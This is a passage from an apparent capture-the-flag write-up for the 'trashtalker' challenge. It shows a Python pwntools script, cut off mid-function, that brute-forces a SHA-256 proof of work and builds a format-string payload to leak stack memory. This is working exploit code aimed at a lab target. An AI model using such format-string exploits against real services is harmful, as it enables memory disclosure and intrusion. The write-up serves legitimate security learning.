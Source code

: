 ```python
position = offset / word_size
```

The final format string:

```python
fmt = '%{}$s'.format(position)
```

## Solution
Sick, so I have all the pieces, I just need to put everything together. I ended
up with the following code:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
"""Solve the "trashtalker" CTF challenge."""
from __future__ import print_function
from hashlib import sha256
from itertools import product
from pwn import *
import sys


def bruteforce():
    """Create a stream of incrementing bytes."""
    values = [chr(b) for b in xrange(0x1, 0xff)]
    values.remove('\n')
    l = [values]
    while True:
        for bs in product(*l):
            yield ''.join(bs)
        l.append(values)


def solve_challenge(challenge):
    """Solve the proof of work challenge."""
    (n, s) = challenge.split(':')
    n = int(n)
    for suffix in bruteforce():
        if all(c in '0' for c in sha256(s + suffix).hexdigest()[:n]):
            return suffix


def format_string(dots):
    """Calculate direct parameter access value, return the format string."""
    junk = 0x60                      # 0x60 bytes of stuff already on the stack
    printdots = len(dots) * 4 * 4    # 4 words per stack frame
    return '%{}$s'.format((junk + printdots) / 4)


def proof_of_work(r):
    """Get the challenge and send the response."""
    challenge = r.recvline().strip()
    response = solve_challenge(challenge)
    r.send(response + '\n')
    r.recvline()
    # XXX: Not checking for errors


def format_string_exploit(r):
    """Get the dots and send the format string exploit."""
    r.recvline()    # Loading game
    dots = r.recvline().strip()
```